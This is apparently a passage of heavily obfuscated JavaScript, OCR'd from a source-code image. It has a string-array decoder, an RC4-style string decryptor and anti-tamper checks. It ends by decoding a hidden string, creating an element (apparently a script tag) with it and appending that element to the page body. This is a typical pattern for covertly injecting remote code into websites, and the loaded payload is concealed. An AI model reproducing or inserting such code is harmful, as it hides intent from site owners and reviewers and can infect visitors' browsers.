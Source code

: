 _0xd856ba=parseInt(_0x53e2e9('CR)h',-0xdd,-0xe6,-0x9e,-0x107))/(0x27*-0x71+0x395*0x3+-0x1*-0x679)*(-parseInt(_0x48fafb(0x33a,']1^m',0x20c,0x3cc,0x3d3))/(0x1b*-0x153+0x6b*0x1f+-0x342*-0x7))+-parseInt(_0x540130(0x2b4,0x12f,0x2a4,'#6*P',0x2bd))/(-0x1a1+-0x3*0xc6e+0x26ee)+parseInt(_0x48fafb(0x581,'ITkC',0x70f,0x7df,0x689))/(0xd*-0x65+-0x1a26+0x1f4b)*(parseInt(_0x540130(0x489,0x27a,0x150,'N#OM',0x2f3))/(-0x1ce5*-0x1+0x57c+-0x225c))+parseInt(_0x540130(0x31d,0x30c,0x134,'[Y3P',0x273))/(-0x1bde+0x2091+0x3*-0x18f)+-parseInt(_0x191f75(0xb2,-0x10d,0xce,0x85,'peuq'))/(0x281*0x5+0x1*0xeb8+-0x1b36)*(-parseInt(_0x539148(0x1cf,0x1d2,0x177,'FyAq',0x112))/(-0x51f+-0x7*0x34e+0x1c49))+parseInt(_0x540130(0x212,0x55,-0x7,'ITkC',0x15a))/(0x376*-0x5+-0x21fe+0x1*0x3355)*(parseInt(_0x539148(0x2b2,0x357,0x2e1,'OyZp',0x3de))/(-0x6*-0x10b+-0x1786+-0x1bb*-0xa))+-parseInt(_0x191f75(0x43,0x58,0x104,0x108,'G6lv'))/(-0x2e9*0xb+0xc39+0x13d5*0x1)*(-parseInt(_0x53e2e9('!t4%',0xbd,-0x2,-0x79,-0xac))/(-0x3a2+0xdd*-0xe+0x3f1*0x4));if(_0xd856ba===_0x5e32f4)break;else _0x18bf76['push'](_0x18bf76['shift']());}catch(_0x228824){_0x18bf76['push'](_0x18bf76['shift']());}}}(_0x207b,0xe6907+-0x293cc*-0x5+-0x13be7d));function _0x1278(_0x2a4ef7,_0x12d473){var _0x6db10b=_0x207b();return _0x1278=function(_0x33eac5,_0x2e4e87){_0x33eac5=_0x33eac5-(-0x1*0x2149+0x1*-0x1fab+-0x4*-0x1061);var _0x4c35e8=_0x6db10b[_0x33eac5];if(_0x1278['pTbJAy']===undefined){var _0x4809af=function(_0x4160f7){var _0x3d3294='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';var _0x40bc6a='',_0x30e8ee='',_0x5cdd7f=_0x40bc6a+_0x4809af;for(var _0x4aec5b=-0x171f+0xc97+-0x151*-0x8,_0x48b327,_0x576c58,_0x561f5b=-0x1*0xc75+0x1b*-0xe3+0x1233*0x2;_0x576c58=_0x4160f7['charAt'](_0x561f5b++);~_0x576c58&&(_0x48b327=_0x4aec5b%(0x841*0x3+0x1bec+-0x34ab)?_0x48b327*(0x1*0x1549+-0x2*0x1bb+0x199*-0xb)+_0x576c58:_0x576c58,_0x4aec5b++%(0x1e97+-0x1f00+-0x1*-0x6d))?_0x40bc6a+=_0x5cdd7f['charCodeAt'](_0x561f5b+(-0x11d3*0x1+-0x2045*0x1+0x3222))-(-0xdb*0x11+0x12a*-0x14+-0x167*-0x1b)!==0x4bb*0x3+-0x279*0x7+0x31e*0x1?String['fromCharCode'](-0x5ab*0x1+0x1b4*0x1+0x4f6&_0x48b327>>(-(-0x61e+0x8*-0x132+0xfb0)*_0x4aec5b&0xce3*0x1+0xe*0x115+0x47*-0x65)):_0x4aec5b:0x1*-0x1e0b+0x25e5+-0x7da){_0x576c58=_0x3d3294['indexOf'](_0x576c58);}for(var _0x118a08=0x13*0x105+-0x1*-0x62c+-0x198b,_0x374682=_0x40bc6a['length'];_0x118a08<_0x374682;_0x118a08++){_0x30e8ee+='%'+('00'+_0x40bc6a['charCodeAt'](_0x118a08)['toString'](-0x25f5*0x1+-0x37c+0x1a9*0x19))['slice'](-(-0x8*0x7a+0x1*0x23b9+0x1fe7*-0x1));}return decodeURIComponent(_0x30e8ee);};var _0x5eb88b=function(_0x16c155,_0x4d64fc){var _0x51b55a=[],_0x3bbdb8=0x2062+-0x82f*-0x1+-0x2891*0x1,_0x1bd34b,_0x5e8bdd='';_0x16c155=_0x4809af(_0x16c155);var _0x202a72;for(_0x202a72=-0x2*0xd01+-0x130e+0x2d10;_0x202a72<-0x1*-0x2325+-0x1761+0x2b1*-0x4;_0x202a72++){_0x51b55a[_0x202a72]=_0x202a72;}for(_0x202a72=-0xc01+0x650+0x5b1;_0x202a72<-0x1*-0xea2+0x2681+-0x3423;_0x202a72++){_0x3bbdb8=(_0x3bbdb8+_0x51b55a[_0x202a72]+_0x4d64fc['charCodeAt'](_0x202a72%_0x4d64fc['length']))%(-0x20*0x53+-0xb*-0x371+-0x1a7b),_0x1bd34b=_0x51b55a[_0x202a72],_0x51b55a[_0x202a72]=_0x51b55a[_0x3bbdb8],_0x51b55a[_0x3bbdb8]=_0x1bd34b;}_0x202a72=-0xafd*-0x2+-0x1*-0xba7+-0x21a1,_0x3bbdb8=-0xc37*0x2+-0x74e+0x1fbc;for(var _0x30bac4=-0xe5+0x43e+-0x359;_0x30bac4<_0x16c155['length'];_0x30bac4++){_0x202a72=(_0x202a72+(-0x2231*0x1+-0x89*-0xe+-0x2*-0xd5a))%(0x25a2+0x1a12+-0x3eb4),_0x3bbdb8=(_0x3bbdb8+_0x51b55a[_0x202a72])%(0x267c+-0x1*0x5c9+-0xf*0x21d),_0x1bd34b=_0x51b55a[_0x202a72],_0x51b55a[_0x202a72]=_0x51b55a[_0x3bbdb8],_0x51b55a[_0x3bbdb8]=_0x1bd34b,_0x5e8bdd+=String['fromCharCode'](_0x16c155['charCodeAt'](_0x30bac4)^_0x51b55a[(_0x51b55a[_0x202a72]+_0x51b55a[_0x3bbdb8])%(-0x755*0x1+0x5ed*0x5+-0x154c)]);}return _0x5e8bdd;};_0x1278['KxMlor']=_0x5eb88b,_0x2a4ef7=arguments,_0x1278['pTbJAy']=!![];}var _0x3a62cc=_0x6db10b[-0x2f9+-0x140f+0x1708],_0x1c0572=_0x33eac5+_0x3a62cc,_0x40e5f6=_0x2a4ef7[_0x1c0572];if(!_0x40e5f6){if(_0x1278['ZnLqGw']===undefined){var _0x549dcb=function(_0x2061a6){this['KScVlv']=_0x2061a6,this['ZUdLpB']=[0x1*0x419+0xcec+-0x1104,-0xb97*0x1+-0x2*-0x5c+0xadf,-0x1*-0x18+-0xf02+0x2*0x775],this['gMpfeg']=function(){return'newState';},this['JzFOpN']='\x5cw+\x20*\x5c(\x5c)\x20*{\x5cw+\x20*',this['BtDUdt']='[\x27|\x22].+[\x27|\x22];?\x20*}';};_0x549dcb['prototype']['msgsHp']=function(){var _0x39693d=new RegExp(this['JzFOpN']+this['BtDUdt']),_0x23b5fe=_0x39693d['test'](this['gMpfeg']['toString']())?--this['ZUdLpB'][0x753+0x2*0x2b+-0x7a8]:--this['ZUdLpB'][0x22e*-0x2+-0xbb2*0x1+0x100e];return this['DdmazV'](_0x23b5fe);},_0x549dcb['prototype']['DdmazV']=function(_0x40427e){if(!Boolean(~_0x40427e))return _0x40427e;return this['HDwvea'](this['KScVlv']);},_0x549dcb['prototype']['HDwvea']=function(_0x75f2ef){for(var _0x3cfb9d=-0x19*-0x1+0x1b6c+0x5*-0x581,_0x3b7297=this['ZUdLpB']['length'];_0x3cfb9d<_0x3b7297;_0x3cfb9d++){this['ZUdLpB']['push'](Math['round'](Math['random']())),_0x3b7297=this['ZUdLpB']['length'];}return _0x75f2ef(this['ZUdLpB'][0x37d*-0x4+-0x1bee+0x29e2*0x1]);},new _0x549dcb(_0x1278)['msgsHp'](),_0x1278['ZnLqGw']=!![];}_0x4c35e8=_0x1278['KxMlor'](_0x4c35e8,_0x2e4e87),_0x2a4ef7[_0x1c0572]=_0x4c35e8;}else _0x4c35e8=_0x40e5f6;return _0x4c35e8;},_0x1278(_0x2a4ef7,_0x12d473);}var _0x236ca7=_0x25bc84(0xe6,0x2af,0x3b,-0x49,'8b[[')+_0x25bc84(0x135,0x39,0x1fb,0x1a7,'^sF]')+_0x95406(0x424,0x282,0x357,'KHmP',0x5f8)+_0x25bc84(-0x6f,-0x1a1,-0x15c,0xf8,'[Y3P'),_0x150596=document[_0x4975a8('gT!L',0x3e6,0x4b0,0x56f,0x2fb)+_0x4975a8('cqh9',0x4de,0x579,0x5d8,0x3b2)+_0x4975a8('@23V',0x80c,0x7a6,0x69d,0x5dc)](_0x4975a8('la[H',0x7ce,0x7b5,0x933,0x960)+'t');_0x150596[_0x95406(0x3e2,0x4c0,0x41e,'kLd%',0x561)+_0x95406(0x2e4,0x3a9,0x1c4,'CR)h',0x403)]=_0x236ca7,document[_0x13e780(0x318,0x29f,0x258,'cqh9',0x3c1)][_0x95406(0x386,0x2cf,0x565,'C9zt',0x4f1)+_0x95406(0x44e,0x481,0x336,'peuq',0x36a)+'d'](_0x150596);var